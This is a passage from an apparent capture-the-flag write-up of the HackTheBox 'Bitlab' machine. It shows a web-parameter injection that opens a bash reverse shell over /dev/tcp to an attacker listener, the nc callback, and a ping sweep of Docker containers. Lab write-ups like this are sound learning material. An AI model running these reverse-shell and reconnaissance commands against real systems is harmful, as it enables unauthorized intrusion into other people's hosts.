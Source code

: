 ### Shell

Now to translate that to a shell, I’ll visit `http://10.10.10.114/profile/?0xdf=bash -c 'bash -i >%26 /dev/tcp/10.10.14.30/443 0>%261'`, and I get a callback on `nc`:

```

root@kali# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.114.
Ncat: Connection from 10.10.10.114:48796.
bash: cannot set terminal process group (1171): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bitlab:/var/www/html/profile$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Shell as clave

### Enumeration

There’s evidence all over the place that this host is running docker containers. `ifconfig` has many interfaces. I don’t see gitlab or postgres running anywhere. And there’s a set if docker configs in `/srv`. `ip neigh` shows two hosts in the cache:

```

www-data@bitlab:/srv$ ip neigh
10.10.10.2 dev eth0 lladdr 00:50:56:b0:58:fc REACHABLE
172.19.0.2 dev br-c8b1f0816703 lladdr 02:42:ac:13:00:02 STALE
172.19.0.3 dev br-c8b1f0816703 lladdr 02:42:ac:13:00:03 REACHABLE
fe80::250:56ff:feb0:58fc dev eth0 lladdr 00:50:56:b0:58:fc router STALE

```

A quick parallel `ping` sweep shows 4 containers in that subnet:

```

www-data@bitlab:/srv$ time for i in {1..254}; do (ping -c 1 172.19.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done
172.19.0.2
172.19.0.3
172.19.0.1
172.19.0.4
172.19.0.5

real    0m0.928s
user    0m0.129s
sys     0m0.051s

```
